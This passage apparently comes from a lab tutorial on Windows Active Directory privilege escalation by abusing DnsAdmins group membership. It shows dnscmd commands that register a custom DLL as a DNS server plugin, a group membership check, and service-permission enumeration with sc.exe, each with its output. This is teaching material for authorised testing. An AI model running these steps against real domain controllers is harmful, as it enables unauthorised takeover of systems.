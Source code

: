 Loading DLL as Non-Privileged User

```cmd
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

Loading DLL as Member of DnsAdmins

```powershell
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109           
```

#### Loading Custom DLL

After confirming group membership in the `DnsAdmins` group, we can re-run the command to load a custom DLL.


```cmd
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Note: We must specify the full path to our custom DLL or the attack will not work properly.

#### Finding User's SID

First, we need our user's SID.

```cmd
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

#### Checking Permissions on DNS Service

Once we have the user's SID, we can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), we can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.

```cmd
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
